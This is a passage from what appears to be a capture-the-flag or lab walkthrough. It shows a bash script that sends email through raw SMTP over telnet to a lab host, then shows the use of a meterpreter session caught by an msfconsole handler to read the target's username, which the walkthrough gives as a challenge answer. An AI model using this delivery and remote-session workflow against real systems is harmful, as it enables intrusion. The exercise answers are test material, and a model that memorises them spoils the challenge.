 ```
echo "--RaNDoMString123__AA_ABCdefghij--"
sleep 1;
echo ""
sleep 1;
echo "."
sleep 1;
echo "quit"
} | telnet 10.5.5.96 25
```

3. Save it and don't forget to give it the proper permissions. We chose to save it on our Desktop and call it `sendmail.sh`. To give proper permissions, type the following: 
```
chmod +x sendmail.sh
```

4. Now, we are ready to execute. 
```
/home/human/Desktop/sendmail.sh
```

5. Once your script finishes running, go to your msfconsole multi/handler window that you had running and you should see that you now have a meterpreter session! Let's type the following command to retrieve the machine's username: 
```
getuid
```

![Image 6](./img/img_6.png)

6. In our case, this gave us `remy-4a97e6`. This is the answer to question 1. Time to send this username to `admin@merchant.caste.aurellia` and see what our next task is. Do not close your meterpreter session, since it will be useful later. We can modify our script to send emails easier now. Here is a short modification:

```
#!/bin/bash

subject="Subject of your email"
txtmessage="remy-4a97e6"
FROM="human@merchant.caste.aurellia"
TO="admin@merchant.caste.aurellia" 


{
sleep 1;
echo "MAIL FROM:<$FROM>"
sleep 1;
echo "RCPT TO: $TO"
sleep 1;
echo "DATA"
sleep 1;
echo "Subject:" $subject
sleep 1;
```